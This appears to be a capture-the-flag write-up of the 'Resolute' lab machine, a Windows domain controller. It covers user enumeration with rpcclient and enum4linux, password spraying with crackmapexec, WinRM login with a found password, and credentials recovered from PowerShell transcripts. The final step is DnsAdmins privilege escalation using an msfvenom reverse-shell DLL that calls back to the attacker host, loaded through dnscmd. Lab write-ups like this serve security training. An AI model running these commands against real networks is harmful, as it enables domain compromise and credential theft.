




We can use rpc client to get usernames
user:[Administrator] rid:[0x1f4] user:[Guest] rid:[0x1f5]user:[krbtgt] rid:[0x1f6]user:[DefaultAccount] rid:[0x1f7]user:[ryan] rid:[0x451]user:[marko] rid:[0x457]user:[sunita] rid:[0x19c9]user:[abigail] rid:[0x19ca]user:[marcus] rid:[0x19cb]user:[sally] rid:[0x19cc]user:[fred] rid:[0x19cd]user:[angela] rid:[0x19ce]user:[felicia] rid:[0x19cf]user:[gustavo] rid:[0x19d0]user:[ulf] rid:[0x19d1]user:[stevie] rid:[0x19d2]user:[claire] rid:[0x19d3]user:[paulo] rid:[0x19d4]user:[steve] rid:[0x19d5]user:[annette] rid:[0x19d6]user:[annika] rid:[0x19d7]user:[per] rid:[0x19d8]user:[claude] rid:[0x19d9]user:[melanie] rid:[0x2775]user:[zach] rid:[0x2776]user:[simon] rid:[0x2777]user:[naoki] rid:[0x2778]
And groups
rpcclient $> enumdomgroupsgroup:[Enterprise Read-only Domain Controllers] rid:[0x1f2]group:[Domain Admins] rid:[0x200]group:[Domain Users] rid:[0x201]group:[Domain Guests] rid:[0x202]group:[Domain Computers] rid:[0x203]group:[Domain Controllers] rid:[0x204]group:[Schema Admins] rid:[0x206]group:[Enterprise Admins] rid:[0x207]group:[Group Policy Creator Owners] rid:[0x208]group:[Read-only Domain Controllers] rid:[0x209]group:[Cloneable Domain Controllers] rid:[0x20a]group:[Protected Users] rid:[0x20d]group:[Key Admins] rid:[0x20e]group:[Enterprise Key Admins] rid:[0x20f]group:[DnsUpdateProxy] rid:[0x44e]group:[Contractors] rid:[0x44f]
Running enum4linux we get this
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko Name: Marko Novak Desc: Account created. Password set to Welcome123!
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan Name: Ryan Bertrand Desc: (null)
Every other user is set to null for names so I imagine these are the two actual users. Marko login does not work unforutnately.
Minimum password length: 7
Account Lockout Threshold: None - Accounts will not get locked out
Ryan is in a special group
'Contractors' (RID: 1103) has member: MEGABANK\ryan
Password Spray
Using egrep I pulled all passwords from rockyou.txt that are a minimum of 7 characters and moved them to a new wordlist to attempt a password spray
egrep '.{7,}' /usr/share/wordlists/rockyou.txt > rockyou.txt
then ran it against ryan and marko
crackmapexec smb 10.10.10.169 -u newusers.txt -p rockyou.txt | grep +
Didnt get anything with the spray.
Looking back at marko his password hasnt changed so we should be able to use Welcome123!
rpcclient $> queryuser 0x457
User Name : marko
Full Name : Marko Novak
Home Drive :
Dir Drive :
Profile Path:
Logon Script:
Description : Account created. Password set to Welcome123!
Workstations:
Comment :
Remote Dial :
Logon Time : Wed, 31 Dec 1969 19:00:00 EST
Logoff Time : Wed, 31 Dec 1969 19:00:00 EST
Kickoff Time : Wed, 13 Sep 30828 22:48:05 EDT
Password last set Time : Fri, 27 Sep 2019 09:17:15 EDT
Password can change Time : Sat, 28 Sep 2019 09:17:15 EDT
Password must change Time: Wed, 13 Sep 30828 22:48:05 EDT
Before this I ran this with the domain name megabank.local instead of the IP and it failed. I used guided mode and saw password spraying was the proper path so I tried the IP and it worked. Simple mistake on my end.

melanie:Welcome123!
We can remote in with evil-winrm
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
Bloodhound
After taking a while to get bloodhound working I used bloodhound.py and I was finally able to get working data.
This is our path to Admin

We can PS remote into Resolute
$SecPassword = ConvertTo-SecureString 'Welcome123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('MEGABANK.LOCAL\melanie', $SecPassword)$session = New-PSSession -ComputerName RESOLUTE.MEGABANK.LOCAL -Credential $Cred
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
Confirm it worked with Get-ChildItem Env: we see the computer name is Resolute

Next we can perform a DCSync attack with mimikatz
lsadump::dcsync /domain:MEGABANK.LOCAL /user:Administrator
I tried to get mimikatz on the machine by making mimikatz undetected, disabling av, nothing is working. I realized we have another user, Ryan.
I tried doing everything I could imagine to find creds for Ryan but had no luck. I decided to look up a guide. The files were hidden inside a hidden directory hiding everything inside the directory as well.
Using ls -force we can find the hidden folders in the root of the C drive.
C:\PStranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
In the history file we find creds for ryan
ryan Serv3r4Admin4cc123!
Getting a hint from guided mode after searching for a couple hours and finding nothing the attack vector is the DNS Admin group. I saw this when I ran whoami /all but forgot after going out to dinner and coming back.
DNS admin group can set a DLL file to run when DNS starts. We create a dll using msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=443 -f dll -o rev.dll
I tried uploading the dll but defender blocks it. Thankfully we can actually run this from our smbshare without uploading it. For some reason if you map the drive though it will not work and you will not get a shell(this took me a very long time to figure out)
Setting the malcious DLL(Do not map the drive or it fails)
dnscmd.exe /config /serverlevelplugindll \\10.10.14.22\s\rev.dll
Stop and Start DNS
sc.exe \\resolute stop dnssc.exe \\resolute start dns
And we get a reverse shell
